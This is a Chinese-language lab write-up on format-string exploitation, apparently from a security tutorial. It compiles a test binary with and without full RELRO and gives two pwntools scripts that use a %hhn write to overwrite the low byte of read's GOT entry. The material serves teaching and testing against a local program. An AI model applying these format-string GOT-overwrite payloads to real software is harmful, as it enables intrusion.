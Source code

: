 编译

```bash
gcc -o test1 -z noexecstack -fno-stack-protector -no-pie -z lazy ct18.c
gcc -o test2 -z noexecstack -fno-stack-protector -no-pie -z now ct18.c
```

test1 利用脚本如下

```bash
from pwn import*
context.arch='amd64'
io = process('./test1')
gdb.attach(io)
pause()
read_got = 0x404020 
payload = '%'+str(0x66)+'c%8$hhn'
pay = payload.ljust(0x10,'\x00')
pay+=p64(read_got)
io.sendline(pay)

io.interactive()
```

更改 read 的 got 表低两位为 66

[![](assets/1706090564-cbdd187408492d351e1fa035bff3e9df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123233839-7ada7eea-ba05-1.png)

test2

```bash
from pwn import*
context.arch='amd64'
io = process('./test2')
gdb.attach(io)
pause()
read_got = 0x403FE8 
payload = '%'+str(0x66)+'c%8$hhn'
pay = payload.ljust(0x10,'\x00')
pay+=p64(read_got)
io.sendline(pay)

io.interactive()
```
